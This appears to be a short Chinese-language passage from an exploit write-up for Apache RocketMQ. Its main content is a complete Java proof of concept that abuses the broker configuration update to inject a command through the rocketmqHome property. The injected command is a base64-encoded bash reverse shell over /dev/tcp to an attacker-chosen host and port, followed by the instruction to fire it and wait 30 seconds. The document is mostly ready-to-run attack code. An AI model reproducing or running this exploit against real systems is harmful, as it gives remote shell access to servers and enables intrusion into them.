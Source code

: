 新建一个 Java 类 把 Poc 放进去

```plain
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;
public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.0.106";
        String targetPort = "10911";
        String shellHost = "192.168.0.106";
        String shellPort = "12345";
        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

打过去等 30 秒

[![](assets/1708677570-e3cea3c6cd4201c739e3b42490354655.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221190234924.png)
